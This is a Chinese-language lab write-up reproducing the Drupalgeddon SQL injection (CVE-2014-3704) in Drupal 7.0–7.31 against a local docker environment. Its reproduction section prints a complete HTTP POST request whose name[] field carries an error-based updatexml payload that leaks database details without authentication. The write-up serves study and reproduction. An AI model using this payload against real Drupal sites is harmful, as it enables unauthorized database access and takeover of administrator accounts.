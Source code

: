 （CVE-2014-3704）Drupal \< 7.32 "Drupalgeddon" sql注入漏洞
==========================================================

一、漏洞简介
------------

Drupal
是一款用量庞大的CMS，其7.0\~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

二、漏洞影响
------------

Drupal 7.0\~7.31

三、复现过程
------------

### 漏洞环境

执行如下命令启动Drupal 7.31环境：

    docker-compose up -d

环境启动后，访问`http://your-ip:8080`即可看到Drupal的安装页面，使用默认配置安装即可。

其中，Mysql数据库名填写`drupal`，数据库用户名、密码为`root`，地址为`mysql`：

![](./.resource/(CVE-2014-3704)Drupal<7.32“Drupalgeddon”sql注入漏洞/media/rId25.png)

安装完成后，访问首页：

![](./.resource/(CVE-2014-3704)Drupal<7.32“Drupalgeddon”sql注入漏洞/media/rId26.png)

### 漏洞复现

该漏洞无需认证，发送如下数据包即可执行恶意SQL语句：

    POST /?q=node&destination=node HTTP/1.1
    Host: your-ip:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 120

    pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a

可见，信息已被爆出：

![](./.resource/(CVE-2014-3704)Drupal<7.32“Drupalgeddon”sql注入漏洞/media/rId28.png)

参考链接
--------

> https://vulhub.org/\#/environments/drupal/CVE-2014-3704/
